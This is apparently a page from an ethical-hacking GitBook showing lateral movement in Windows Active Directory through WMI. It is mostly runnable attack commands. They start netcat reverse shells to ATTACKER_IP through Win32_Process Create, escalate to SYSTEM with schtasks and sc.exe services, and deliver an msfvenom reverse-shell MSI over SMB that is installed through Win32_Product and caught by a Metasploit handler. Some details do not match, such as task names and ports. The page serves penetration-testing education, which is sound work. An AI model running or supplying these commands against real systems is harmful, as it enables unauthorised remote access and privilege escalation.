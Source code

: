 # Example

Refer to the section labelled ["Example scenario"](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/lateral-movement-and-pivoting/example-scenario) to understand the setup we will be working with. The following will illustrate an example of how we can use WMI to move laterally in a network.

### (1) Using `Win_32_Process`

It appears that this method does not directly provide us with a shell session as the privileged `nt authority\system` user immediately. We need to perform certain privilege escalation steps (with the administrator credentials) to gain a privileged shell.

For the sake of simplicity, we will assume that the machine has the netcat binary installed in `C:\tools\nc64.exe`.

#### 1.  Start a listener on the attacker machine

```sh
$ nc -lvnp 9999
```

> Take note of the port number used in this step

#### 2. Create a new WMI session against our target machine (`iis.test.com`) and invoke the Create method from the `Win32_Process` class:

> This step should be performed from an "intermediary" machine in the network that we have compromised (`jmp.test.com`)

a. Create WMI session:

{% code overflow="wrap" %}
```powershell
PS C:\> $username = 'admin';
PS C:\> $password = 'pass';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

PS C:\> $Opt = New-CimSessionOption -Protocol Dcom
PS C:\> $Session = New-CimSession -ComputerName iis.test.com -Credential $credential -SessionOption $Opt -ErrorAction Stop 
```
{% endcode %}

b. Invoke `Win32_Process` Create method:

{% code overflow="wrap" %}
```powershell
PS> $Command = "c:\tools\nc64.exe ATTACKER_IP 9999 -e cmd.exe"

PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{ 
CommandLine = $Command 
}
```
{% endcode %}

Now, we should retrieve a remote shell on the listener we established previously:

* Note that we have obtained a shell as the admin user, but not the highest privileged system user yet

```
C:\> whoami
admin
```

#### 3. Escalate privilege to the highest privileged system user (`SYSTEM`):

#### 3.1 Using `schtasks`

a. Start a listener on the attacker machine (on a separate port from the previously used one):

{% code overflow="wrap" %}
```sh
$ nc -lvnp 6666
```
{% endcode %}

b. Create and start a new task as the `SYSTEM` user:

{% code overflow="wrap" %}
```powershell
C:\> schtasks /ru "SYSTEM" /create /tn "rooty" /tr "c:\tools\nc64.exe ATTACKER_IP 6666" /ru "SYSTEM" flag
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
C:\> schtasks /tn "privsec" /run
```
{% endcode %}

Now, we should receive a shell as the `SYSTEM` user:

```powershell
C:\> whoami
nt authority\system
```

#### 3.2 Using `sc.exe`&#x20;

a. Start a listener on the attacker machine:

```
$ nc -lvnp 6666
```

b. Create and start a new service&#x20;

{% code overflow="wrap" %}
```powershell
C:\> sc.exe create "rooty" binPath= "c:\tools\nc64.exe ATTACKER_IP 6666" start= auto

C:\> sc.exe start "rooty"
```
{% endcode %}

Now, ...



### (2) Using `.msi` packages and `Win32_Product`

#### 1. Craft the reverse shell payload (`msfvenom`) in the `.msi` format

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=8888 -f msi -o rvshell.msi
```
{% endcode %}

> Take note of the value passed to the `LPORT` option

#### 2. Copy the payload over to the target machine using _SMB_ (or any other methods available):

{% code title="Attacker" overflow="wrap" %}
```sh
# lets first identify the name of the admin share
$ smbclient -U admin -W test.com -L '//iis.test.com'
Sharename       Type      Comment
---------       ----      -------
 ADMIN$         Disk      Remote Admin
...


$ smbclient -c "put <msi_name>.msi -U admin -W test.com '//iis.test.com/ADMIN$'
```
{% endcode %}

> Replace `service_exec_name>.exe` with the name of the `.msi` file created with `msfvenom`

_Start the msfconsole listener (used to catch the shell in one of the later step):_

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfconsole
msf6> use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST <local_addr>
msf6 exploit(multi/handler) > set LPORT 9999
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > run
```
{% endcode %}

#### 3. Create a new WMI session against our target machine (`iis.test.com`) and invoke the Install method from the `Win32_Product` class:

> This step should be performed from an "intermediary" machine in the network that we have compromised (`jmp.test.com`)

a. Create WMI session

Follow the steps as shown in "part (1) Using `Win32_Process` " above.

b. Invoke `Win32_Product` Install method:

{% code overflow="wrap" %}
```powershell
PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
PackageLocation = "C:\Windows\<installed_msi>.msi";
Options = "";
AllUsers = $false
}
```
{% endcode %}

After executing the above commands, we should receive a connection on the `msfconsole` listener we have established earlier:

{% code title="msfconsole" overflow="wrap" %}
```powershell
C:\> whoami
nt authority\system
```
{% endcode %}

